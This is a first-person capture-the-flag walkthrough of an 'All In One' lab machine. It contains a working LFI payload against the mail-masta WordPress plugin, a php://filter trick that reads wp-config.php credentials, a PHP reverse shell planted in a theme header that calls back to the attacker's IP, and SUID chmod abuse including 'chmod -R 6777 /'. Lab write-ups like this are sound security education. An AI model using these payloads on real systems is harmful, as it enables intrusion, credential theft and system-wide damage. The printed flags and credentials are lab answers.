


# All In One Write-Up:
	
## NMap Scan:
	
I performed an NMap scan:

```
sudo nmap -sS -sC -sV -vv -oN nmap-out {MACHINE_IP}
```

It returned the following ports:

```
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 63 vsftpd 3.0.3
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
```

## Gobuster Scan:
	
I performed the following Gobuster scan:
	
```
gobuster -e -t 100 -u {MACHINE_IP} -w dir_wordlist.txt -o gobuster_out -x '.html,.php,.txt,.js' -s 200,204,301,302,307
```

Got the following:
	
```
http://{MACHINE_IP}/index.html (Status: 200)
http://{MACHINE_IP}/wordpress (Status: 301)
http://{MACHINE_IP}/wordpress/index.php (Status: 301)
http://{MACHINE_IP}/wordpress/index.php (Status: 301)
http://{MACHINE_IP}/wordpress/license.txt (Status: 200)
http://{MACHINE_IP}/wordpress/readme.html (Status: 200)
http://{MACHINE_IP}/wordpress/wp-admin (Status: 301)
http://{MACHINE_IP}/wordpress/wp-content (Status: 301)
http://{MACHINE_IP}/wordpress/wp-blog-header.php (Status: 200)
http://{MACHINE_IP}/wordpress/wp-cron.php (Status: 200)
http://{MACHINE_IP}/wordpress/wp-config.php (Status: 200)
http://{MACHINE_IP}/wordpress/wp-includes (Status: 301)
http://{MACHINE_IP}/wordpress/wp-load.php (Status: 200)
http://{MACHINE_IP}/wordpress/wp-links-opml.php (Status: 200)
http://{MACHINE_IP}/wordpress/wp-login.php (Status: 200)
http://{MACHINE_IP}/wordpress/wp-signup.php (Status: 302)
http://{MACHINE_IP}/wordpress/wp-trackback.php (Status: 200)
http://{MACHINE_IP}/hackathons (Status: 200)
```


I looked at the **/wordpress** directory. I got the following:
	


It looks like a standard WordPress page. I ran a tool called [WPScan.](https://github.com/wpscanteam/wpscan) I ran it with a **-e u** flag, this means that the scan will try to enumerate all the users on this site:

```
wpscan --url 10.10.23.22/wordpress/ -e u --plugins-detection mixed
```

It returned the following user:
	
```
[+] elyana
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://10.10.23.22/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)
```

So we have a user, **elyana**. I then used WPScan to attempt to brute-force the password:
	
I looked at the **/hackathons** directory and it contains this text:
	
```
Damn how much I hate the smell of Vinegar :/ !!! 
```

I looked at the source-code, and at the very bottom, I found these two comments:
	
```html
<!-- Dvc W@iyur@123 -->
<!-- KeepGoing -->
```

These actually stumped me. I had to look at a write-up for this CTF. Apparently, the reference to vinegar is a reference to something called a **"Vigenere Cipher"**, I looked up a Vigenere Cipher decoder online and put the information in.

I got the following:
	
```
Try H@ckme@123
```

Maybe that is Elyana's wordpress password? 

It did not work for me. Let's try something else.

## WPScan: Plugin Vulnerablilties

I tried running a WPScan to check for plugin vulnerabilities:
	
```
wpscan --url {MACHINE_IP}/wordpress -e ap 
```

It returned the following:
	
```
[i] Plugin(s) Identified:

[+] mail-masta
 | Location: http://10.10.160.173/wordpress/wp-content/plugins/mail-masta/
 | Latest Version: 1.0 (up to date)
 | Last Updated: 2014-09-19T07:52:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.0 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://10.10.160.173/wordpress/wp-content/plugins/mail-masta/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://10.10.160.173/wordpress/wp-content/plugins/mail-masta/readme.txt

[+] reflex-gallery
 | Location: http://10.10.160.173/wordpress/wp-content/plugins/reflex-gallery/
 | Latest Version: 3.1.7 (up to date)
 | Last Updated: 2019-05-10T16:05:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 3.1.7 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://10.10.160.173/wordpress/wp-content/plugins/reflex-gallery/readme.txt
```

Both of these plugins have vulnerabilities. I chose to try to exploit the **mail-masta** plugin.

The vulnerability is called a **Local File Inclusion (LFI)**. It allows us to read arbitrary files in the file system.

In order to do it, you need to enter the following URL on your browser:
	
```
{MACHINE_IP}/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl={INSERT_PAYLOAD_HERE}
```

Now, in order to test it, I'm going to try to look at the **/etc/passwd** file:
	
```
{MACHINE_IP}/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```

It returned the following:
	
```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin syslog:x:102:106::/home/syslog:/usr/sbin/nologin messagebus:x:103:107::/nonexistent:/usr/sbin/nologin _apt:x:104:65534::/nonexistent:/usr/sbin/nologin lxd:x:105:65534::/var/lib/lxd/:/bin/false uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin pollinate:x:109:1::/var/cache/pollinate:/bin/false elyana:x:1000:1000:Elyana:/home/elyana:/bin/bash mysql:x:110:113:MySQL Server,,,:/nonexistent:/bin/false sshd:x:112:65534::/run/sshd:/usr/sbin/nologin ftp:x:111:115:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin 
```

It worked!

Now, the file I want to check out is the **wp-config.php**. It contains sensitive information like usernames and passwords.

In order to read **PHP** files in a LFI exploit, we need to use the following payload:
	
```
php://filter/convert.base64-encode/resource={FILE_LOCATION}
```

NOTE: This particular payload will return the file's contents in bas64 encoding, so the output will need to be decoded in order to read.

Now we need the location of the **wp-config.php** file. It is normally found in the root directory of the website. When we execute this command, we'll be in the **{MACHINE_IP}/wordpress/wp-content/plugins/mail-masta/inc/campaign/** directory, the website root directory is the **{MACHINE_IP}/wordpress/** directory. So the file location can be listed as **../../../../../wp-config.php**

So, the final payload will be:
	
```
{MACHINE_IP}/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=php://filter/read=convert.base64-encode/resource=../../../../../wp-config.php
```

It returns the following:
	
```
PD9waHANCi8qKg0KICogVGhlIGJhc2UgY29uZmlndXJhdGlvbiBmb3IgV29yZFByZXNzDQogKg0KICogVGhlIHdwLWNvbmZpZy5waHAgY3JlYXRpb24gc2NyaXB0IHVzZXMgdGhpcyBmaWxlIGR1cmluZyB0aGUNCiAqIGluc3RhbGxhdGlvbi4gWW91IGRvbid0IGhhdmUgdG8gdXNlIHRoZSB3ZWIgc2l0ZSwgeW91IGNhbg0KICogY29weSB0aGlzIGZpbGUgdG8gIndwLWNvbmZpZy5waHAiIGFuZCBmaWxsIGluIHRoZSB2YWx1ZXMuDQogKg0KICogVGhpcyBmaWxlIGNvbnRhaW5zIHRoZSBmb2xsb3dpbmcgY29uZmlndXJhdGlvbnM6DQogKg0KICogKiBNeVNRTCBzZXR0aW5ncw0KICogKiBTZWNyZXQga2V5cw0KICogKiBEYXRhYmFzZSB0YWJsZSBwcmVmaXgNCiAqICogQUJTUEFUSA0KICoNCiAqIEBsaW5rIGh0dHBzOi8vd29yZHByZXNzLm9yZy9zdXBwb3J0L2FydGljbGUvZWRpdGluZy13cC1jb25maWctcGhwLw0KICoNCiAqIEBwYWNrYWdlIFdvcmRQcmVzcw0KICovDQoNCi8vICoqIE15U1FMIHNldHRpbmdzIC0gWW91IGNhbiBnZXQgdGhpcyBpbmZvIGZyb20geW91ciB3ZWIgaG9zdCAqKiAvLw0KLyoqIFRoZSBuYW1lIG9mIHRoZSBkYXRhYmFzZSBmb3IgV29yZFByZXNzICovDQpkZWZpbmUoICdEQl9OQU1FJywgJ3dvcmRwcmVzcycgKTsNCg0KLyoqIE15U1FMIGRhdGFiYXNlIHVzZXJuYW1lICovDQpkZWZpbmUoICdEQl9VU0VSJywgJ2VseWFuYScgKTsNCg0KLyoqIE15U1FMIGRhdGFiYXNlIHBhc3N3b3JkICovDQpkZWZpbmUoICdEQl9QQVNTV09SRCcsICdIQGNrbWVAMTIzJyApOw0KDQovKiogTXlTUUwgaG9zdG5hbWUgKi8NCmRlZmluZSggJ0RCX0hPU1QnLCAnbG9jYWxob3N0JyApOw0KDQovKiogRGF0YWJhc2UgQ2hhcnNldCB0byB1c2UgaW4gY3JlYXRpbmcgZGF0YWJhc2UgdGFibGVzLiAqLw0KZGVmaW5lKCAnREJfQ0hBUlNFVCcsICd1dGY4bWI0JyApOw0KDQovKiogVGhlIERhdGFiYXNlIENvbGxhdGUgdHlwZS4gRG9uJ3QgY2hhbmdlIHRoaXMgaWYgaW4gZG91YnQuICovDQpkZWZpbmUoICdEQl9DT0xMQVRFJywgJycgKTsNCg0Kd29yZHByZXNzOw0KZGVmaW5lKCAnV1BfU0lURVVSTCcsICdodHRwOi8vJyAuJF9TRVJWRVJbJ0hUVFBfSE9TVCddLicvd29yZHByZXNzJyk7DQpkZWZpbmUoICdXUF9IT01FJywgJ2h0dHA6Ly8nIC4kX1NFUlZFUlsnSFRUUF9IT1NUJ10uJy93b3JkcHJlc3MnKTsNCg0KLyoqI0ArDQogKiBBdXRoZW50aWNhdGlvbiBVbmlxdWUgS2V5cyBhbmQgU2FsdHMuDQogKg0KICogQ2hhbmdlIHRoZXNlIHRvIGRpZmZlcmVudCB1bmlxdWUgcGhyYXNlcyENCiAqIFlvdSBjYW4gZ2VuZXJhdGUgdGhlc2UgdXNpbmcgdGhlIHtAbGluayBodHRwczovL2FwaS53b3JkcHJlc3Mub3JnL3NlY3JldC1rZXkvMS4xL3NhbHQvIFdvcmRQcmVzcy5vcmcgc2VjcmV0LWtleSBzZXJ2aWNlfQ0KICogWW91IGNhbiBjaGFuZ2UgdGhlc2UgYXQgYW55IHBvaW50IGluIHRpbWUgdG8gaW52YWxpZGF0ZSBhbGwgZXhpc3RpbmcgY29va2llcy4gVGhpcyB3aWxsIGZvcmNlIGFsbCB1c2VycyB0byBoYXZlIHRvIGxvZyBpbiBhZ2Fpbi4NCiAqDQogKiBAc2luY2UgMi42LjANCiAqLw0KZGVmaW5lKCAnQVVUSF9LRVknLCAgICAgICAgICd6a1klbSVSRlliOnUsL2xxLWlafjhmakVOZElhU2I9Xms8M1pyLzBEaUxacVB4enxBdXFsaTZsWi05RFJhZ0pQJyApOw0KZGVmaW5lKCAnU0VDVVJFX0FVVEhfS0VZJywgICdpQVlhazxfJn52OW8re2JAUlBSNjJSOSBUeS0gNlUteUg1YmFVRHs7bmRTaUNbXXFvc3hTQHNjdSZTKWQkSFtUJyApOw0KZGVmaW5lKCAnTE9HR0VEX0lOX0tFWScsICAgICdhUGRfKnNCZj1adWMrK2FdNVZnOT1QfnUwM1EsenZwW2VVZS99KUQ9Ok55aFVZe0tYUl10N300MlVwa1tyNz9zJyApOw0KZGVmaW5lKCAnTk9OQ0VfS0VZJywgICAgICAgICdAaTtUKHt4Vi9mdkUhcyteZGU3ZTRMWDN9TlRAIGo7YjRbejNfZkZKYmJXKG5vIDNPN0ZAc3gwIW95KE9gaCNNJyApOw0KZGVmaW5lKCAnQVVUSF9TQUxUJywgICAgICAgICdCIEFUQGk+KiBOI1c8biEqfGtGZE1uUU4pPl49XihpSHA4VXZnPH4ySH56Rl1pZHlRPXtAfTF9KnJ7bFowLFdZJyApOw0KZGVmaW5lKCAnU0VDVVJFX0FVVEhfU0FMVCcsICdoeDhJOitUejhuMzM1V2htels+JFVaOzhyUVlLPlJ6XVZHeUJkbW83PSZHWiFMTyxwQU1zXWYhelZ9eG46NEFQJyApOw0KZGVmaW5lKCAnTE9HR0VEX0lOX1NBTFQnLCAgICd4N3I+fGMwTUxecztTdzIqVSF4LntgNUQ6UDF9Vz0gL2Npe1E8dEVNPXRyU3YxZWVkfF9mc0xgeV5TLFhJPFJZJyApOw0KZGVmaW5lKCAnTk9OQ0VfU0FMVCcsICAgICAgICd2T2IlV3R5fSR6eDlgfD40NUlwQHN5WiBdRzpDM3xTZEQtUDM8e1lQOi5qUERYKUh9d0dtMSpKXk1TYnMkMWB8JyApOw0KDQovKiojQC0qLw0KDQovKioNCiAqIFdvcmRQcmVzcyBEYXRhYmFzZSBUYWJsZSBwcmVmaXguDQogKg0KICogWW91IGNhbiBoYXZlIG11bHRpcGxlIGluc3RhbGxhdGlvbnMgaW4gb25lIGRhdGFiYXNlIGlmIHlvdSBnaXZlIGVhY2gNCiAqIGEgdW5pcXVlIHByZWZpeC4gT25seSBudW1iZXJzLCBsZXR0ZXJzLCBhbmQgdW5kZXJzY29yZXMgcGxlYXNlIQ0KICovDQokdGFibGVfcHJlZml4ID0gJ3dwXyc7DQoNCi8qKg0KICogRm9yIGRldmVsb3BlcnM6IFdvcmRQcmVzcyBkZWJ1Z2dpbmcgbW9kZS4NCiAqDQogKiBDaGFuZ2UgdGhpcyB0byB0cnVlIHRvIGVuYWJsZSB0aGUgZGlzcGxheSBvZiBub3RpY2VzIGR1cmluZyBkZXZlbG9wbWVudC4NCiAqIEl0IGlzIHN0cm9uZ2x5IHJlY29tbWVuZGVkIHRoYXQgcGx1Z2luIGFuZCB0aGVtZSBkZXZlbG9wZXJzIHVzZSBXUF9ERUJVRw0KICogaW4gdGhlaXIgZGV2ZWxvcG1lbnQgZW52aXJvbm1lbnRzLg0KICoNCiAqIEZvciBpbmZvcm1hdGlvbiBvbiBvdGhlciBjb25zdGFudHMgdGhhdCBjYW4gYmUgdXNlZCBmb3IgZGVidWdnaW5nLA0KICogdmlzaXQgdGhlIGRvY3VtZW50YXRpb24uDQogKg0KICogQGxpbmsgaHR0cHM6Ly93b3JkcHJlc3Mub3JnL3N1cHBvcnQvYXJ0aWNsZS9kZWJ1Z2dpbmctaW4td29yZHByZXNzLw0KICovDQpkZWZpbmUoICdXUF9ERUJVRycsIGZhbHNlICk7DQoNCi8qIFRoYXQncyBhbGwsIHN0b3AgZWRpdGluZyEgSGFwcHkgcHVibGlzaGluZy4gKi8NCg0KLyoqIEFic29sdXRlIHBhdGggdG8gdGhlIFdvcmRQcmVzcyBkaXJlY3RvcnkuICovDQppZiAoICEgZGVmaW5lZCggJ0FCU1BBVEgnICkgKSB7DQoJZGVmaW5lKCAnQUJTUEFUSCcsIF9fRElSX18gLiAnLycgKTsNCn0NCg0KLyoqIFNldHMgdXAgV29yZFByZXNzIHZhcnMgYW5kIGluY2x1ZGVkIGZpbGVzLiAqLw0KcmVxdWlyZV9vbmNlIEFCU1BBVEggLiAnd3Atc2V0dGluZ3MucGhwJzsNCg==
```

Keep in mind that this is in base64 encoding, so it needs to be decoded.

After decoding(output trimmed for space):
	
```php

/** MySQL database username */
define( 'DB_USER', 'elyana' );

/** MySQL database password */
define( 'DB_PASSWORD', 'H@ckme@123' );

```

Well, now I feel like an idiot! The password is **H@ckme@123**, not **Try H@ckme@123**. I had the password all along.

So I used the above credentials to log in to the wordpress site, **{MACHINE_IP}wordpress/wp-admin**

Now I'm in the dashboard!



I navigated to **Appearance-->Theme Editor** and modified the **Theme Header (header.php)** file. I put in the following payload:
	
```
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/{THM_VPN_IP}/{PORT_NUMBER} 0>&1'");?>
```

This will execute a reverse shell when I load a page on the WordPress site.

So now I set up a Netcat listener on port 1234:
	
```
sudo nc -nvlp 1234
```

Now with the header.php file edited, when I navigate to the wordpress site, I get a reverse shell!

Now that I'm in the shell, I enter the following: **cd /home/elyana** and find the following: **user.txt**

I try to look at the contents, but I don't have the right permissions.

I perform a **find** search to find all the files that have the SUID bit set:
	
```
find / -type f -perm /4000
```

It returns several files, but the one that catches my interest is the **chmod** program. I check out [GTFOBins](https://gtfobins.github.io/gtfobins/chmod/) and find a SUID exploit for the **chmod** program:
	
```
chmod 6777 /home/elyana/user.txt
```

Since chmod has the user ID set, I can arbitrarily set any files permissions to whatever I want!

I look into the **user.txt** file:
	
```
VEhNezQ5amc2NjZhbGI1ZTc2c2hydXNuNDlqZzY2NmFsYjVlNzZzaHJ1c259
```

I try to enter this in, but this is not our flag. I try a base64 decode on the file, and get:
	
```
THM{49jg666alb5e76shrusn49jg666alb5e76shrusn}
```

And that is our user flag!

Now that I know the power of this **chmod** with SUID enabled, I have a diabolical plan: Maybe I don't even need a root shell, could I recursively change the permissions of every file on the system? 

I try the following:
	
```
chmod -R 6777 /
```

It runs with a lot of errors, but it does complete. So I try to look into the **/root** directory, and it works! Haha!

I see the **root.txt** file, open it, and get the following:
	
```
VEhNe3VlbTJ3aWdidWVtMndpZ2I2OHNuMmoxb3NwaTg2OHNuMmoxb3NwaTh9
```

It works! Once again, it needs to be base64 decoded, and you get:
	
```
THM{uem2wigbuem2wigb68sn2j1ospi868sn2j1ospi8}
```

That is the root flag, which I got without having a root shell!

Hope you enjoyed.
